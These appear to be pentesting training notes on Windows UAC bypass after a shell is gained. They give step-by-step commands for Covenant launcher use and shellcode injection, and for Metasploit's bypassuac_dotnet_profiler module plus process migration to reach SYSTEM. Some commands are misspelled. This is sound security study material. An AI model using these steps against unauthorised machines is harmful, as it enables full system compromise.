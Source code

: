 # UAC Bypass

- We assume that we already have a shell on the target

## With Covenant

- Get the helper.ps1 script with Powershell Import
- Copy an encoded launcher from the Launchers session of Covenant
- Type this command and append it with your launcher and close the quote `PowerShell helper -custom "cmd.exe /c <Launcher-HERE>"`
- You will get a shell as the same user but your shell will be in an administrative user context
- If you type `ps` you should be able to see also admin process
- To have an admin shell we can download a grunt as a shellcode
- To do so, We go to grunt we select shellcode we click on generate and we download the bin
- Then back on the shell, we Type `inject` in the most recent shell and select the binary then use a process number with admin privileges click on execute
- We should have a shell as system

## With Metasploit

- Interact with the current session using `session -i id-of-session`
- type `run post/multi/recon/local_exploit_suggester `
- We should see in the list this if the target is vulnerable
  ```
  [+] 192.168.3.4 - exploit/windows/local/always_install_elevated: The target is vulnerable.
  [+] 192.168.3.4 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
  ```
-  Ctrl Z the session
- `use exploit/windows/local/bypassuac_dotnet_profiler`
- set the session to the id of the one we have on the target
- and then exploit -j  
- We should have a new session
- We are not admin yet but we have and administrative user context
- List processes using `ps` and find one with admin rights remember the process id
- type `migrat process-id`
- if you type `getuid` you should have authority system

## Resources

- [Bypassing Defender The Easy Way – FodHelper by Joe Helle](https://tcm-sec.com/bypassing-defender-the-easy-way-fodhelper/) to understand more about Fodhelper
- [TCM security Academy -  Movement pivoting and persistence for pentesters and ethical hacker](https://academy.tcm-sec.com/p/movement-pivoting-and-persistence-for-pentesters-and-ethical-hackers)
